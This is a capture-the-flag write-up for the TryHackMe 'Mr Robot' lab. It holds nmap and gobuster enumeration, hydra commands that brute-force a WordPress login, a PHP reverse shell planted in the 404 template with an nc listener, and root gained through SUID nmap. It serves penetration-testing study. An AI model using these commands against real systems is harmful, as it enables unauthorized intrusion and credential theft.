

# ====================

# Mr Robot CTF WRITE-UP

Link to the TryHackMe room:

[https://tryhackme.com/room/lookup](https://tryhackme.com/room/mrrobot)

Check my YouTube Channel for video walkthrough:

https://www.youtube.com/watch?v=m2e6XtEgvns&list=PLCQqtmXy08Pz-XpVupEH8u9-P29SduMFB&index=2

# ====================


# 1. Enumeration

Add `Machine_IP robot.thm` to /etc/hosts file.

```shell
sudo vim /etc/hosts
```

We will use ***NMAP*** to enumerate open ports on the target machine (we can also use ***Rustscan***).

```shell
sudo nmap -sS -T4 -vv -p- robot.thm
```

We get two open ports: `HTTP` and `HTTPS` and one closed port `SSH`. So we won't be able to log in via SSH even if we get some credentials.


Now we will check for port version, common scripts and OS information:

```shell
sudo nmap -sV -sC -O -T4 -vv -p 22,80,443 robot.thm
```


Nothing much interesting here, it is Linux OS. So let's enumerate folder structure on web server with GoBuster:

```shell
gobuster dir -u http://robot.thm -w /usr/share/wordlists/dirb/common.txt -t 60
```

We get some interesting information here. First, we can see that there is **robot.txt** file which we should check and we can obviously see that this is a WordPress site because of the `/wp-*` folders:


First we will check for **robots.txt** file and we can see some interesting files:


File **key-1-of-3** is the answer to the first question:

```
curl http://robot.thm/key-1-of-3.txt
```

But file **fsocity.dic** seems like some kind of wordlist... Let's save it to our attack machine...

```
curl http://robot.thm/fsocity.dic -o fsocity.dic
```

When we check for number of lines of this file, we get almost a million lines...

```
wc -l fsocity.dic
```

If we check the file, we can see there is a lot of duplicates, so we can make the wordlist smaller by removing all these duplicates...

```
cat fsocity.dic | sort | uniq > fsocity2.dic
```

Now we have around 11 000 lines, which is much better... Let's try to log in to the site via `http://robot.thm/wp-login.php`.

We get a log in form and if we enter some random credentials, we get an **error message**:


Let's try to enumerate the usernames with **hydra** using the wordlist `fsocity2.dic`. Intercept the request with BURP to get the POST data:


```
hydra -L fsocity2.dic -p x robot.thm -vV http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Frobot.thm%2Fwp-admin%2F&testcookie=1:Invalid username." -t 64 -f
```

We got the username... Of course... It's **elliot**! :D


Now let's back to log in page, enter **elliot** as username and random password. We get different error message!


Let try to brute force the password for user **elliot** using the same wordlist `fsocity2.dic`:

```
hydra -l elliot -P fsocity2.dic robot.thm -vV http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Frobot.thm%2Fwp-admin%2F&testcookie=1:The password" -t 64 -f
```

And YES!!! We got the password!!! :)


Use the credentials to log in to the WordPress site and we are in:


WordPress is based on php, so we need a php reverse shell to get to the system... The easiest way is to find some php page that we can call and execute our payload. We can use `404.php` page which is called when the page can't be found on the server (Appearance -> Editor -> 404 Template).

We can use the famous php reverse shell **pentestmonkey**:


Unpack it:

```
tar -xzvf file_name.tar.gz
```

Copy the whole content of the .php file and paste it in the 404.php page on the web site. Put the IP of your attacking machine and set PORT to 1234, or whatever you want.


Start the nc listener on your attacking machine:

```
nc -lvnp 1234
```

Save changes by pressing **Update file** button. Request some page on the server that doesn't exists `http://robot.thm/adfdsf` and YES! We have reverse shell! Stabilize the shell with python method:


List the content of `/home` directory and you will see **robot** user. When we list that folder we can see there are two files: **key-2-of-3.txt** and **password.raw-md5**. We don't have permissions to read **key** file, but we can read the **password** file. It's MD5 hash of the password, so we have to crack it with **JOHN** or **Hashcat**. It is very slow process on the attack box, so we will use site https://crackstation.net.


We already saw in the NMAP results that SSH port is closed, so we can't connect via SSH, but we can change user on our existing shell:



Now, we can `cat` key-2-of-3.txt file and get the second answer:


At this point we should download **linpeas** on the target machine and check for privilege escalation vectors, but the answer is to check for SUID bit:

```
find / -type f -perm -u=s -ls 2>/dev/null
```

In the results we can see the NMAP which we can check at gtfobins website...


We can run NMAP in interactive mod and get the shell:


And YES, we are root!!! :)


Read the last `key-3-of-3.txt` file from `/root` directory and you get the third answer!


# =========

# ***Stay safe and see ya in the next write-up!***
